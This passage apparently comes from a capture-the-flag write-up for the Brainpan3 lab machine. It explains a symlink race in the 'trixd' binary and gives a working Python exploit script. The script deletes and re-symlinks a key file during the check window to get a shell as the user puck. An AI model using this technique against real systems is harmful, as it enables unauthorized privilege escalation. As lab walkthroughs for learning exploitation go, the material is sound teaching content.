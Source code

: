 Loading `trixd` into IDA we see that the binary is checking to see if `/mnt/usb/key.txt` is a symlink, and if so, exits immediately. From here, it opens both `/mnt/usb/key.txt` and `/home/puck/key.txt` and checks if they are both the same. If they are the same, we are given a `/bin/sh` shell. Otherwise, we see the `Incorrect key` message.

The idea to beat this is to connect, delete `/mnt/usb/key.txt`, then symlink `/home/puck/key.txt` to `/mnt/usb/key.txt`. If timed correctly, we will catch the symlink after the check, bypassing it.

I couldn't get `binjitsu` on the Brainpan3 box (or didn't try hard enough), so we can use standard library functions to do the connections.

Again, in order to make this work via one script, we will write a script to disk and execute it in order to get our shell with `puck`.

Our new code is below:

```python
# Create our script on the server

r.sendline(""" echo "
import os
import socket
import telnetlib
import subprocess

HOST = 'localhost'
PORT = 7075

try:
    os.remove('/mnt/usb/key.txt')
except:
    pass

# Ensure we have a file to begin with
subprocess.check_output(['touch', '/mnt/usb/key.txt'])

# Connect and check for symlink
r = socket.socket()
r.connect((HOST, PORT))

# Quickly remove the non-symlinked file and re-symlink
os.remove('/mnt/usb/key.txt')
os.symlink('/home/puck/key.txt', '/mnt/usb/key.txt')

# Try for our shellz
t = telnetlib.Telnet()
t.sock = r
t.interact()

r.close()
" > win.py
""")

r.sendline("python win.py")
r.clean()
r.sendline("whoami")
output = r.recv()
log.success("Shell received: {}".format(output))
sleep(1)

r.interactive()
```
